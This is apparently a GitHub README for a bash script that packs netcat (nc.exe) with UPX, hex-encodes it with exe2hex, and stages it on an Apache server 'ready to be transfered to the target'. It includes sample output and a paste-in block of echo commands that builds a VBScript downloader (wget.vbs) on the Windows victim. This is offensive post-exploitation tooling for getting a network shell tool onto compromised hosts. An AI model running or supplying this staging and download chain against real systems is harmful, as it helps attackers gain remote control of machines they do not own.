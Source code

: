 # netcat_for_windows
A small bash script that creates an executable version of netcat for Windows.

This script starts an apache2 webserver, clones nc.exe, converts the clone to hex and moves file to /var/www/html ready to be downloaded for use via the webserver. 

## Usage
This script was written to help send a Windows compatible netcat and make it accessible to be downloaded via the webserver. 

`./necat_for_windows.sh`

```######################################################################
   This script starts an Apache2 server, clones nc.exe, converts it
             into hex and adds to /var/www/html file
######################################################################
Do you want to continue? y/n: y
                      Apache2 Server Started...
######################################################################
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) /home/parallels/Tools/nc.cmd
nc.cmd
######################################################################
Success! /var/www/html/nc.cmd is ready to be transfered to the target! 
######################################################################
```



You may need to create a HTTP Downloader which can be done by copying the following code and pasting it to the Windows CLI:


```echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs```
